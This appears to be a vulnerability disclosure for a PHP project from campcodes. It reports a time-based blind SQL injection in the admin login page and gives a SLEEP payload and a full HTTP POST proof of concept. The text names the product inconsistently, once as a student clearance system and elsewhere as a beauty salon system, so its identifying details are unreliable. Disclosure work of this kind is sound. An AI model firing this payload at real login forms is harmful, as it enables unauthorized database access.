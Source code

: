 # Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code  (It is an open source project from [https://www.campcodes.com/](https://www.campcodes.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: Jing Xiong

2. vendors: [Beauty Salon Management System in PHP and MySQLi](https://www.campcodes.com/projects/beauty-salon-management-system-in-php-and-mysqli/);

3. The program is built using the PHP/8.1.10 version;

4. Vulnerability location: \Chic-Beauty-Salon-System\admin\index.php

# Vulnerability Verification

[+] Payload:

```java
username=SPCs' AND (SELECT 4652 FROM (SELECT(SLEEP(5)))BPWj) AND 'iSWn'='iSWn&password=ubhU&login=Sign
```

POC：

```js
POST /admin/ HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 130
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=4dq7vcodkmkfafhok7fkld9s4r
Host: 127.0.0.1:8081
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/admin/
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

username=SPCs%27+AND+%28SELECT+4652+FROM+%28SELECT%28SLEEP%285%29%29%29BPWj%29+AND+%27iSWn%27%3D%27iSWn&password=123&login=Sign+In
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：
![image](./sql2.png)


